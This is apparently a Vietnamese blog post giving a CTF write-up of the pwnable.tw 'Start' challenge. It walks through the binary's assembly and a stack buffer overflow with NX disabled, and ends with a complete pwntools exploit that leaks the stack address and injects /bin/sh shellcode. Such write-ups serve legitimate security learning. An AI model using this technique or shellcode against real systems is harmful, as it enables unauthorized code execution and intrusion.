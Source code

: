 ```yaml
---
layout: post
title:  Pwnable.tw
comments: true
---
```


## 0x00 Giới thiệu
Khoảng một tháng trở lại đây, tôi chuyên tâm hơn vào việc chơi pwn. Một phần là vì mảng pwn khó, phần còn lại là tôi nghĩ nó có thể giúp tôi kiếm được tiền :)) Vì là một người mới, những kiến thức mà tôi viết ở đây có thể chưa chính xác hoàn toàn. Rất mong các bạn đọc góp ý để tôi phát triển hơn nữa. 

[Pwnable.tw](https://pwnable.tw/) là một trang luyện tập mảng pwn khá nổi tiếng của Đài Loan. Theo tôi cảm nhận, thử thách ở đây khá khó cho người mới. Nếu các bạn không làm được thì cũng đừng lấy gì làm lạ. Tôi đã mất khoảng hơn 1 tuần để nghiền ngẫm challenge đầu tiên. 

## 0x01 Start

### I. Tổng quan
![](/images/Pwnable.tw/0x01%20Start/start.png)

Đề bài cho chúng ta duy nhất một file là `start`. Việc đầu tiên tôi thường làm sẽ là kiểm tra xem file là 32 hay 64 bits. Để kiểm tra, tôi thường dùng `file`.
```shell
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

Thông tin cho chúng ta biết được đây là một file 32 bits. Load chương trình vào IDAPRO x32, quan sát các hàm ở mục `Functions`, nhận thấy rằng chương trình chỉ xoay quanh hàm `_start`.  

Tiếp đến, tôi sẽ sử dụng `checksec` để kiểm tra các lớp bảo vệ của file. Tôi đoán sẽ có nhiều bạn không hiểu dùng `checksec` để làm gì. Ngày trước tôi cũng như vậy, nhưng sau một khoảng thời gian ngắn, tôi được tiếp cận thêm về lỗ bổng **BOF - Buffer Overflow**, tôi mới thấy nó vô cũng hữu hiệu. 

```shell
$ checksec --file="start"
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   8) Symbols        No    0               0               start
```

Đối với bài toán này, để đơn giản, các bạn chỉ cần quan tâm tới thông số `NX: Disabled`. Nghĩa là các bạn có thể chèn mã thực thi lên stack. Nếu `NX: Enabled`, cho dù mã thực thi được chèn lên stack thì nó vẫn sẽ không hoạt động. 

### II. Phân tích 

```
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

Mã assembly của hàm `_start` rất dễ đọc, chúng ta sẽ đi phân tích nội dung từng đoạn code. 

Việc đầu tiên là đẩy thanh ghi `ESP` và offset của hàm `_exit` vào trong stack. Sau đó, gán giá trị của 4 thanh ghi `EAX, EBX, ECX, EDX = 0`. Tiếp theo là đẩy các giá trị `3A465443h, 20656874h, 20747261h, 74732073h, 2774654Ch` vào trong stack. 

Câu hỏi đặt ra ở đây là 5 con số trên là gì vậy? Rất đơn giản, nó chính là: 
- 3A465443h = ":FTC" 
- 20656874h = " eht"
- 20747261h = " tra"
- 74732073h = "ts s"
- 2774654Ch = "'teL"

Chúng đại diện cho chuỗi "**Let's start the CTF:**"

Đoạn mã tiếp theo, chương trình gọi ra 2 system call là sys_write và sys_read

```
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
```

Thông tin của `sys_write`:
- Xuất ra màn hình chuỗi từ địa chỉ ESP hiện tại 
- Số byte: 0x14 bytes
- File descriptor: stdout

```
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX - sys_read
```

Thông tin của `sys_read` 
- Đọc một chuỗi từ bộ nhập chuẩn
- Số byte: 0x3C 

Đoạn mã cuối cùng tăng giá trị thanh ghi `ESP` lên 0x14 đơn vị. `retn` gọi địa chỉ thanh ghi `ESP` đang giữ rồi cộng `ESP` lên 4 đơn vị.  

```
add     esp, 14h
retn
```

### III. Lỗ hổng

Chúng ta cùng nhìn qua cấu trúc của stack trước khi gọi 2 system call. 

![Alt text](/images/Pwnable.tw/0x01%20Start/image.png)

Giá trị của thanh ghi `ESP` ở: 
- Hiện tại:  `0xFFFFD124`
- Ban đầu:  `0xFFFFD140`

Chú ý rằng, thường các challenge sẽ bật **Address Space Layout Randomization** nên giá trị thanh ghi `ESP` ban đầu luôn có giá trị ngẫu nhiên. (Đây là lý do vì sao mình không lấy `ESP = 0xFFFFD140` để khai thác lỗ hổng)

Như ta đã phân tích ở trên, `sys_read` cho phép đọc 60 bytes vào stack. Nếu chúng đã nhập vào 20 bytes, thì từ địa chỉ `0xFFFFD124` đến `0xFFFFD134` sẽ được fill đủ.\
Giả sử chúng ta tiếp tục nhập vào, các giá trị tại các địa chỉ trên nó sẽ bị thay đổi. Dẫn tới lỗ hổng **BOF**. 

### IV. Hướng tấn công 

Công việc chúng ta cần thực hiện: 
1. Lấy được địa chỉ thanh ghi `ESP` ban đầu. 
2. Từ việc có được giá trị thanh ghi `ESP` ban đầu, chúng ta sẽ đưa địa chỉ trả về của hàm là địa chỉ của shellcode. 

### Công việc 1
![Alt text](/images/Pwnable.tw/0x01%20Start/image-1.png)

Để lấy giá trị của thanh ghi `ESP` ban đầu rất đơn giản. Chúng ta nhập đủ 20 bytes để lấp đầy địa chỉ từ `0xFFFFD124` đến `0xFFFFD134`, tiếp tục ghi thêm 4 bytes `0x08048087` để chương trình có thể gọi system call read và write lần thứ 2. 

Bây giờ, giá trị của thanh ghi `ESP` sẽ là: `0xFFFFD124 + 0x14 + 0x4 = 0xFFFFD13C`. Chú ý, đây cũng là nơi chứa giá trị thanh ghi `ESP` ban đầu. 

Lợi dụng việc gọi `sys_write` lần thứ 2. Chỉ cần in ra 4 bytes đầu tiên, chúng ta sẽ lấy được địa chỉ `ESP` ban đầu.  

```python
payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
```

### Công việc 2

Sau khi đã có địa chỉ `ESP` ban đầu. Việc của chúng ta là phải tính toán xem phải input bao nhiêu ký tự để chương trình có thể thực thi được shellcode. 

Gọi địa chỉ `ESP` ban đầu là `ESP = X`, giá trị hiện tại `ESP = X - 4`

![Alt text](/images/Pwnable.tw/0x01%20Start/image-2.png)

Sau khi `sys_read` được gọi, `ESP + 0x14`, nghĩa là `ESP` đứng ở `X + 16`. Ở `X + 16`, chúng ta chỉ cần gán cho nó giá trị là `X + 20`, nơi shellcode được viết. Hàm trả về sẽ là địa chỉ shellcode được bắt đầu. 

```python
payload2 = b'x' * 0x14 + p32(leaked_esp + 0x14) + shellcode
```

### V. Mã khai thác 
```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" 

payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
payload2 = b'x' * 0x14 + p32(esp_leaked + 0x14) + shellcode
r.send(payload2)

r.interactive()
```

### VI. Tham khảo
1. [Pwnable.tw - Start @y198](https://hackmd.io/@y198/ry6GrF3gi)
2. [Pwnable.tw - Start @c01dkit](https://blog.csdn.net/weixin_43483799/article/details/113844032)
